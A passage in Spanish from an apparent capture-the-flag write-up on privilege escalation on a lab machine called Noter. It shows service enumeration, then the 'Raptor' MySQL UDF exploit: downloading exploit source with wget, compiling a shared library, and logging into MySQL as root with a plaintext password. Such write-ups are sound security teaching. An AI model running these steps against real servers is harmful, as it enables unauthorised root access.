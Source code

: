 Ejecutar `ps auxww` no proporciona ningún proceso excepto los propiedad de svc.

Nada interesante ahí. `/proc` está montado con `hidepid=2`. Para ver qué más podría estar ejecutándose, miraré `/etc/systemd` para buscar servicios. Comenzaré con MySQL, ya que sé que se está ejecutando:

```bash
find . -name '*.service' | grep sql
```

```
./system/multi-user.target.wants/mysqlcheck.service
./system/multi-user.target.wants/mysql-start.service
./system/mysqlcheck.service
./system/mysql-start.service
```

`mysql-start.service` muestra que el servicio se está ejecutando como root:

```ini
[Unit]
Description=MySQL service

[Service]
ExecStart=/usr/sbin/mysqld
User=root
Group=root

[Install]
WantedBy=multi-user.target
```

## Explotación de MySQL como Root

Hay muchas publicaciones sobre cómo explotar MySQL ejecutándose como root usando un código denominado "Raptor". La idea es escribir una biblioteca compartida que ejecute comandos desde SQL en el directorio de complementos y luego agregar un comando para acceder a ella y ejecutarla como root.

Necesitaré obtener una copia del archivo exploit y compilarlo:

```bash
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Ahora lo subiré a Noter en `/dev/shm`.

### Cargando la Biblioteca

Me conectaré a MySQL como root, no como DB_user (ese usuario carece de privilegios), y usaré la base de datos `mysql`:

```bash
mysql -u root -pNildogg36 mysql
```

Voy a crear una tabla `foo` y leer el binario en ella:
